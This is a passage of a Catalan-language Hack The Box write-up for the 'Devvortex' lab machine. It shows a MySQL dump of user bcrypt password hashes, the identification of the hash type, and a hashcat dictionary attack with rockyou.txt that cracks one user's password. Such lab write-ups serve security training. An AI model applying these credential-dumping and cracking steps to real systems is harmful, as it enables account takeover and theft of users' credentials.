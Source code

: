 ```
| 650 | logan paul | logan | logan@devvortex.htb |
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 | 0 | 0 |
2023-09-26 19:15:42 | NULL | |
{"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","
a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL | 0 | | |
0 | |
+-----+------------+----------+---------------------+--------------------------------------------------------------
+-------+-----------+---------------------+---------------------+------------
+----------------------------------------------------------------------------------------------------------------------
-----------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
mysql>`
```

Veiem que hi ha les contrasenyes guardades en hashes per els usuaris logan i lewis i ara els mirarem de crackejar:

```
mysql> select username, password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| lewis | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
mysql>`
```


Ara primer haurem de mirar el tipus de hash que són:

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/f117dcfa-22ca-48c3-80e0-a61a4b54903e)


I veiem que és un bcrypt. Ara amb hashcat mirarem si podem crackejar els hash, però primer guardem els hashs a un fitxer:

```
┌──(polkali㉿polkali)-[~]
└─$ cat hashos.txt
$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12`
```

I ara podem llençar la comanda de hashcat:

```
┌──(polkali㉿polkali)-[~]
└─$ hashcat -a 0 -m 3200 -O hashos.txt /usr/share/wordlists/rockyou.txt
````

I trobem un dels dos hash (el d’en logan)amb el rockyou:
